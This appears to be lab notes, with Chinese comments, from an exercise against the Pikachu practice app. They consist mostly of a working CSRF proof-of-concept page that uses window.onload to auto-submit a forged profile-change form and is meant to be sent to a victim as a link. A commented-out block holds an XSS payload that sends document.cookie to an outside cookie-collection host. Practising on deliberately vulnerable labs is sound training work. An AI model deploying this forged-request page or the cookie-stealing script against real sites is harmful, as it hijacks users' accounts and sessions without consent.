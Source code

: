 ```
from表单

用了js时间来自动点击submit

又设置了value默认值来以迅雷不及掩耳之势完成更改值

表单的提交页面需要是用户更改的那个网址

之后把到你这个页面的路径发给用户
```

```php+HTML
<!doctype html> <!-- 定义文档类型为HTML5 -->
<html lang="en"> <!-- 定义页面语言为英语 -->
<head>
    <meta charset="UTF-8"> <!-- 设置字符编码为UTF-8 -->
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <!-- 设置移动设备视口属性 -->
    <meta http-equiv="X-UA-Compatible" content="ie=edge"> <!-- 设置浏览器兼容性模式为Edge模式 -->
    <title>Document</title> <!-- 设置页面标题为"Document" -->
    <script>
        // 当页面加载完成时执行以下JavaScript代码
        window.onload = function() {
            // 通过点击具有"id"属性为"postsubmit"的按钮来提交表单
            document.getElementById("postsubmit").click();
        }
    </script>
</head>
<body>
    <form method="post" action="http://192.168.1.12/pikachu-master/vul/csrf/csrfpost/csrf_post_edit.php">
        <!-- 创建一个表单，以POST方式提交到指定URL -->
        <input  type="text" name="sex" value="boy"> <!-- 输入性别信息，默认值为"boy" -->
        <input  type="text" name="phonenum" value="10010"> <!-- 输入电话号码信息，默认值为"10010" -->
        <input  type="text" name="add" value="chain"> <!-- 输入地址信息，默认值为"chain" -->
        <input  type="text" name="email" value="zzp%40pikachu.com"> <!-- 输入电子邮件信息，默认值为"zzp%40pikachu.com" -->
        <!--
        <form method="post" action="http://192.168.1.4/pikachu/vul/xss/xsspost/xss_reflected_post.php">
            创建一个嵌套的表单，以POST方式提交到指定URL（注释掉的部分不会生效）
            <input id="xssr_in" type="text" name="message" value=
            "<script>
        document.location = 'http://192.168.1.15/pkxss/xcookie/cookie.php?cookie=' + document.cookie;
            </script>"
             /> -->
        <input id="postsubmit" type="submit" name="submit" value="submit" /> <!-- 提交按钮 -->
    </form>
</body>
</html>
```
